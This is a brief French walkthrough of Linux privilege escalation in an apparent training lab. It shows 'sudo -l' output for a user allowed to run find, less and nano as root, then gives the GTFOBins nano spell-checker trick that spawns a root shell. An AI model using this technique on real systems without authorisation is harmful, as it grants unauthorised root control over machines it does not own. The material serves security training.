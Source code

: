 
## __Sudo -l__

Grâce à la commande **`sudo -l`**, on peut récuperer les commandes que l'on peut éxecuter en sudo.

```shell
$ sudo -l
Matching Defaults entries for karen on ip-10-10-127-120:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-127-120:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

Ici on peut voir que l'utilisateur peut utiliser nano en sudoer.

On peut voir sur **[gtfobins](https://gtfobins.github.io/gtfobins/nano/)** qu'on peut effectuer une **élévation des privilèges** avec **Nano** en executant **`/bin/sh`** en **SPELL** mode. 

```shell
./nano -s /bin/sh
/bin/sh
^T
```

On peut ensuite voir qu'on passe en root.